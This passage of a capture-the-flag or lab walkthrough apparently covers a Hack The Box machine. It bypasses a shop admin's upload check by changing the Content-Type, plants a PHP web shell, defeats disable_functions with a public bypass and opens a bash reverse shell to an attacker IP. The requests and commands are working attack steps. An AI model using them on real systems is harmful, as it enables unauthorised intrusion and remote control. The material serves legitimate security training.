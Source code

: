 Intercepting the request and changing the Content-Type to _application/xml_
```
POST /shop/admin/?app=vqmods&doc=vqmods HTTP/1.1
Host: 10.10.10.207
(...)
Content-Disposition: form-data; name="vqmod"; filename="shell.php"
Content-Type: application/xml
```

Browsing to _/shop/vqmod/xml/shell.php_ and testing command execution:
```
http://10.10.10.207/shop/vqmod/xml/shell.php?cmd=whoami
```

The file is successfully uploaded but the web shell does not execute commands.
Code execution in general does work as it is possible to run the _phpinfo_ function:
```
Content-Type: application/xml

<?php phpinfo(); ?>
```

The row _disable_functions_ contains functions that are disabled and _system_ is one of them, so this blocklist has to be bypassed.
By trying different [bypass methods from HackTricks](https://book.hacktricks.xyz/pentesting/pentesting-web/php-tricks-esp/php-useful-functions-disable_functions-open_basedir-bypass#modules-version-dependent-bypasses), the one that will work is the [version dependent one](https://book.hacktricks.xyz/pentesting/pentesting-web/php-tricks-esp/php-useful-functions-disable_functions-open_basedir-bypass/disable_functions-bypass-php-7.0-7.4-nix-only#php-7-0-7-4-nix-only).

Uploading PHP script:
```
POST /shop/admin/?app=vqmods&doc=vqmods HTTP/1.1
(...)
Content-Disposition: form-data; name="vqmod"; filename="shell.php"
Content-Type: application/xml

<?php
# Author: https://github.com/mm0r1

pwn($_REQUEST['cmd']);

function pwn($cmd) {
(...)
```

Now command execution on _shell.php?cmd=whoami_ works and displays the current user as _www-data_.

Executing commands to gain a reverse shell:
```
POST /shop/vqmod/xml/shell.php HTTP/1.1
(...)

cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.7/9001 0>&1'
```
